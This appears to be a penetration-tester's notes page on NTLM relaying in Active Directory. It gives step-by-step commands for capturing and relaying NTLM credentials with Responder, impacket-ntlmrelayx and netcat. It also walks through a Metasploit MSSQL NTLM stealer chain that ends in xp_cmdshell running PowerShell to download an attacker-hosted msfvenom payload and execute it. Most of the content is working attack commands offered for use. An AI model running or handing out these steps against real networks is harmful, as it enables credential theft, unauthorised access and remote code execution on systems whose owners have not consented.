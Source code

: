 [https://pentest.party/notes/ad/ntlm-relaying](https://pentest.party/notes/ad/ntlm-relaying)

# Method 1 – Responder (requires users on same subnet to pass valid credentials)

Responder will passively listen and capture live NTLM credentials from users attempting to authenticate to services across the network. Attackers will only be able to see requests from users in the same subnet, so <attack_ip> needs to either be in the same subnet as the target host or the target users. `impacket-ntlmrelayx` will pass those live NTLM credentials to the target host on the service provided (SMB, RPC, MSSQL, etc) and potentially allow for unauthorized access as that user. Access is dependent on whether or not that user/service account has access to the target, service. If access is granted, it will be at that user level.

1.  If targeting SMB on the <target_ip>, SMB signing needs to be disabled in order for successful NTLM relaying. Targets can be validated using `netexec`.
```
netexec smb 192.168.1.0/24 --gen-relay-list relay_list.txt
```
2. Configure Responder:
```
sudo nano /etc/responder/Responder.conf
```
- In order for Responder and `impacket-ntlmrelayx` to operate together, modify the `responder.conf` file and disable the HTTP and SMB servers (as `ntlmrelayx` will be both the SMB and HTTP server).
	- Set SMB and HTTP to "Off"
3. Start Responder:
```
sudo responder –I eth0 –v -f /path/to/savefile
```
4. Start `impacket-ntlmrelayx`:
```
sudo impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server –smb2support --no-multirelay -i -t <service_protocol>://<target_IP>:<target_port>
```
5. Wait for users on the subnet to attempt to authenticate into target services.
	- Once connection is established identify local_port (typically port 11000, 11001, ..02, ..03).
6. Start `netcat` on the local port
```
sudo nc 127.0.0.1 <local_port>
```
7. Pwn.

# Method  2 – Metasploit MSSQL NTLM Stealer(requires pre-captured cleartext user credentials)

MSSQL NTLM Stealer uses pre-captured cleartext user credentials to gain system level access to a MSSQL server using `impacket-ntlmrelayx`. This will grant system level access regardless of the access level of the user credentials.

- Understanding the Vulnerability
MSSQL servers often have the `xp_dirtree` stored procedure enabled by default. This procedure allows for directory traversal on the server's file system. However, when this procedure is called, it can also trigger the SQL Server to attempt authentication to a specified network share (SMB server).

- NTLM Authentication
NTLM (NT LAN Manager) is a suite of Microsoft security protocols intended to provide authentication, integrity, and confidentiality to users. When an NTLM authentication request is made, a hash of the user's credentials is sent over the network. If an attacker can capture this hash, they can potentially crack it to retrieve the user's plain-text password or potentially relay it to another target.

- The Attack Vector
The `mssql_ntlm_stealer` module initiates the attack by executing the `xp_dirtree` procedure on the targeted MSSQL server. It specifies a network path that points to the attacker's SMB server. The MSSQL server attempts to authenticate to this SMB server using NTLM authentication, thus sending the NTLM hash.

- Capturing the Hash
The attacker's SMB server, set up to listen for incoming authentication attempts, captures the NTLM hash sent by the MSSQL server. This captured hash can then be cracked offline using various tools to reveal the user's password or relayed to another host.

This module can be used to help capture or relay the LM/NTLM credentials of the account running the remote SQL Server service. The module will use the supplied credentials to connect to the target SQL Server instance and execute the native `xp_dirtree` or `xp_fileexist` stored procedure. The stored procedures will then force the service account to authenticate to the system defined in the SMBProxy option. In order for the attack to be successful, the SMB capture or relay module must be running on the system defined as the SMBProxy. The database account used to connect to the database should only require the "PUBLIC" role to execute. Successful execution of this attack usually results in local administrative access to the Windows system. Specifically, this works great for relaying credentials between two SQL Servers using a shared service account to get shells. However, if the relay fails, then the LM hash can be reversed using the Halflm rainbow tables and john the ripper.

1. Start `impacket-ntlmrelayx`:
```
sudo impacket-ntlmrelayx --no-http-server --no-raw-server --no-wcf-server –smb2support --no-multirelay -i -t mssql://<target_IP>:<target_port>
```
- **Note**: `impacket-ntlmrelayx` needs to be pointed at the MSSQL target you intended to gain privileged access to.
2. Pre-generate payload:
```
msfvenom -p <payload> <options>
```
- **Note**: Host payload on an accessible HTTP server to push to targets later.
3. Pre-start multihandler for payload:
```
msfconsole use multi/handler
Show options
Show payloads
Set PAYLOAD <payload>
Run
```
4. Start msfconsole `mssql_ntlm_stealer`:
```
Msfconsole
use auxiliary/admin/mssql/mssql_ntlm_stealer
Show options
Set RHOSTS <target_ip>
Set RPORT <target_ip>
Set SMBPROXY <attack_ip>
Set USERNAME
Set PASSWORD
Set DOMAIN
Set USE_WINDOWS_AUTHENT True
Run
```
- **Note**:RHOSTS must be a target running MSSQL
- **Note**: USERNAME:PASSWORD must be able to authenticate into MSSQL on that server, cannot be relayed back to the same IP.
5. A successful `ntmlrelayx` capture will output stating "SUCCED" followed by a `127.0.01:11000`.
6. Start `netcat` on the local port to access the captured session:
```
nc 127.0.0.1 11000
```

7. Privilege Escalate:
```
enable_xp_cmdshell
xp_cmdshell "powershell.exe -c iwr –uri <http_hosted_payload> -outfile <local_save_location>\payload.exe"
xp_cmdshell "powershell.exe -c <local_save_location>\payload.exe"
```
8. Pwn.